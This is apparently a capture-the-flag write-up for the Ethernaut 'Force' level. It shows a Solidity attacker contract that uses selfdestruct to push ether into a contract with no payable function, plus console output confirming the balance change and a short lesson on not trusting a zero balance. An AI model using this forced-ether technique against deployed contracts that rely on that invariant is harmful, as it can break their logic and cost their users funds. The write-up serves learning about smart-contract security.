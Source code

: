 ## Ethernaut-solution

### 7. Force

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods

- Sometimes the best way to attack a contract is with another contract.

- See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
//make AttackFile
```solidity
/ForceAttack.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    constructor() public payable {

    }
 
    function attack(address payable _constractAddr) public {//errorが出たのでpayableはoriginal 
        selfdestruct(_constractAddr);
    }
}
```

ref: https://ethereum.stackexchange.com/questions/68059/invalid-implicit-conversion-from-address-to-address-payable-requested

```
await getBalance(contract.address)
'0'
contract.address
'0x58dc2d03B86410ed60cCdD453E568f3198EBAc7a'
```

//ether送金完了
```
await getBalance(contract.address)
'1'
```


In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. 

Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

















